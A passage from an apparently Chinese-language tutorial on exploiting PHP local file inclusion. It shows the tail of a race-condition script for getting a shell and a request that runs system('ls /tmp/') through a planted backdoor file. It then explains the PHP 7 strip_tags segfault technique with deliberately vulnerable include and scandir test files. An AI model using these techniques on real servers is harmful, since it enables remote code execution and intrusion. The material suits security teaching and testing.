 ```python
    for t in tp:
        t.join()

if __name__ == "__main__":
    main()
```

运行脚本Getshell

修改脚本之后，运行即可包含生成我们精心设置好的/tmp/Qftm后门文件

![](%E6%96%87%E4%BB%B6%E5%8C%85%E5%90%AB.assets/1681051790879-c78a4a69-1620-4bed-9e3c-5b615122d47e.png#id=u135g&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

拿到RCE之后，可以查看tmp下生成的后门文件

```perl
http://192.33.6.145/index.php?file=/tmp/Qftm&Qftm=system(%27ls%20/tmp/%27)
```

## 

## php7 Segment Fault

利用条件

7.0.0 <= PHP Version < 7.0.28

原理php代码中使用php://filter的过滤器strip_tags , 可以让 php 执行的时候直接出现 Segment Fault , 这样 php 的垃圾回收机制就不会在继续执行 , 导致 POST 的文件会保存在系统的缓存目录下不会被清除而不想phpinfo那样上传的文件很快就会被删除，这样的情况下我们只需要知道其文件名就可以包含我们的恶意代码。

测试代码

index.php

```php
<?php
    $a = @$_GET['file'];
    include $a;
?>
```

dir.php

```php
<?php
    $a = @$_GET['dir'];
    var_dump(scandir($a));
?
```

测试环境

```
PHP Version 7.0.9
```

攻击载荷

string.strip_tags过滤器导致出现php segment fault
